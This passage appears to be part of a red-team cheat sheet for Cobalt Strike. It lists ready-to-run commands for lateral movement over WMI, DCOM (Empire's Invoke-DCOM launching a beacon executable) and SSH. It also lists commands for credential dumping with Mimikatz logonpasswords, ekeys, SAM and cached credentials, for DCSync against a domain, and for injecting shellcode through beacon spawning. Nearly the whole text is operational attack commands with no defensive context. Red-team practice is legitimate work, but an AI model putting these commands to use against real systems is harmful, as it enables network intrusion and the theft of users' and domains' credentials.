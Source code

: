 ```
remote-exec wmi <HOSTNAME> calc.exe
execute-assembly SharpWMI.exe action=exec computername=<HOSTNAME> command="C:\Windows\System32\calc.exe"
```

#### DCOM
- https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
```
powershell-import Invoke-DCOM.ps1
powershell Invoke-DCOM -ComputerName <HOSTNAME> -Method MMC20.Application -Command <BEACON EXE>
```

#### SSH
```
ssh
ssh-key
```

## Post Exploitation
### Credentials
- The `!`(Elevate to system) and `@`(Impersonate beacons thread) symbols are modifiers.
- Go to View -> Credentials to see a copy of all the credentials

#### Mimikatz logonpasswords
```
mimikatz !sekurlsa::logonpasswords
logonpasswords
```

#### Mimikatz ekeys
```
mimikatz !sekurlsa::ekeys
```

#### Mimikatz sam
```
mimikatz !lsadump::sam
```

#### Mimikatz Cached Credentials
```
mimikatz !lsadump::cache
```

#### DCSync
```
dcsync <DOMAIN> <DOMAIN\USER>
```

### Session passing
#### Beacon passing
- From one beacon type to another
- Spawn an process and inject shellcode for the specified listener into it.
```
spawn <ARCHITECTURE> <LISTENER>
```
